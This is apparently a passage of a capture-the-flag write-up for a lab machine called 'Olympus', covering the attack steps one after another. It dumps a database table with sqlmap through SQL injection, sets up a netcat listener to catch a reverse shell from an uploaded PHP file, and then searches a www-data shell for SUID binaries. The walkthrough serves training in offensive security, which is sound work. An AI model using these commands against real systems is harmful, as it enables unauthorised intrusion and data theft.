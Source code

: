 


![image](https://github.com/user-attachments/assets/53258255-f22f-4c63-8d9b-a67221662a52)



```bash
sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" -D olympus -T chats --dump
...
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+------------+--------------------------------------+
| dt         | msg                                                                                                                                                             | uname      | file                                 |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+------------+--------------------------------------+
| 2022-04-05 | Attached : prometheus_password.txt                                                                                                                              | prometheus | 47c3210d51761686f3af40a875eeaaea.txt |
...
| 2025-06-18 | Attached : rev.php                                                                                                                                              | prometheus | fb3bcb27fc5502af28a726b2d9963ea7.php 
...

```

![image](https://github.com/user-attachments/assets/6ac0243c-1822-404b-98f0-ef3ada967987)


<h3>nc</h3>

```bash
:~# nc -nlvp 9001

```

<h3>[[http://chat.olympus.thm/uploads/.php](http://chat.olympus.thm/uploads/47c3210d51761686f3af40a875eeaaea.txt)](http://chat.olympus.thm/uploads/fb3bcb27fc5502af28a726b2d9963ea7.php)</h3>

![image](https://github.com/user-attachments/assets/07a11003-d729-4579-baa7-68a69f746b10)


![image](https://github.com/user-attachments/assets/9bc31bba-3b83-4498-8783-aa4e967952a7)


<h3></h3>

```bash
www-data@ip-10-10-104-10:/$ ls
bin   dev  home  lib32	libx32	    media  opt	 root  sbin  srv  tmp  var
boot  etc  lib	 lib64	lost+found  mnt    proc  run   snap  sys  usr
www-data@ip-10-10-104-10:/$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/cputils
/usr/bin/sudo
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/pkexec
/usr/bin/su
/usr/bin/chfn
```